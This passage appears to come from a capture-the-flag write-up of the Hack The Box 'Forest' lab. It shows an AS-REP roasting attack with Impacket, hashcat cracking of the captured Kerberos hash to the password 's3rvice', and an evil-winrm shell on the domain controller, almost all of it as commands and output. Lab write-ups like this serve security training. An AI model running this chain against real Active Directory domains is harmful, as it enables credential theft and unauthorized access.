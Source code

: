 ```console
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for HealthMailbox0659cc1
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
...

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:b67f10c40f871b2729811ca04711cc64$e08c3a8dcf1595ffcf340f429b6c47885733306d53dc8854cd4d2575dc8efb7b391a0192322f24a71bbc4176f5619eb72a95f0e17f09028b3766d30583851fc89ee21eddb55b4db12d9bf604d88544aa58b3ffe193f26dde31c27bfd6e486a17b520b0fe85219c2890e0b5c1856b99a9409b3c3b2e0294d04f2fcbb223647d3e699c25141320dc61a8fe64d180a66616e47ddbf8e0fdc828b35fdecc5a8701d7126a4a0db993dfc90b259415d86334f322b505526ecede299bd7809ee08b5d952fef28f6ad56e9682b75331e56f1a3dcd96743c998926d14bb89f540ef0b22e4
```

I ran it again to get it into `hashcat` format:

```console
$ impacket-GetNPUsers HTB/svc-alfresco -dc-ip 10.10.10.161 -request -no-pass -format hashcat
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:a9f75d804d0e91cb6dd18f637deb5217$fbed08ecbfa783d522725111f7c0f27481d625d0c64dc53685fb7f63a3f4e8797f8c3967789b0c7578a05ba0ba9d1c774af119892c5135684602423793ff15d3addf7578a1f9d237509bf110fbfc46fd8b377bdd2fb8a7f2ec28460a6888ff8ebcdeaddfc1c648adf844f4231ad9e1100c60edee448909e20b1f418e86d8cab3513953b18fd04b75f936c2e6500ccb15b329177715f05067ea95cb97820ae5590e6754fc4baae7137642a0c881d14aef09a2808fbab637a2427c073dfe3e12d96f7fbf3e2550d7d85016141f987b9e6a3bc3207a3eed6ed872dc540c225aab50
```

It cracks quickly:

```console
$ hashcat ./forest.asrep ~/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
...
$krb5asrep$23$svc-alfresco@HTB:a9f75d804d0e91cb6dd18f637deb5217$fbed08ecbfa783d522725111f7c0f27481d625d0c64dc53685fb7f63a3f4e8797f8c3967789b0c7578a05ba0ba9d1c774af119892c5135684602423793ff15d3addf7578a1f9d237509bf110fbfc46fd8b377bdd2fb8a7f2ec28460a6888ff8ebcdeaddfc1c648adf844f4231ad9e1100c60edee448909e20b1f418e86d8cab3513953b18fd04b75f936c2e6500ccb15b329177715f05067ea95cb97820ae5590e6754fc4baae7137642a0c881d14aef09a2808fbab637a2427c073dfe3e12d96f7fbf3e2550d7d85016141f987b9e6a3bc3207a3eed6ed872dc540c225aab50:s3rvice
```

The credentials `svc-alfresco:s3rvice` grant access to the domain controller:

```powershell
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
Evil-WinRM shell v3.5
...
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cat ../Desktop/user.txt
2b2e5c...
```

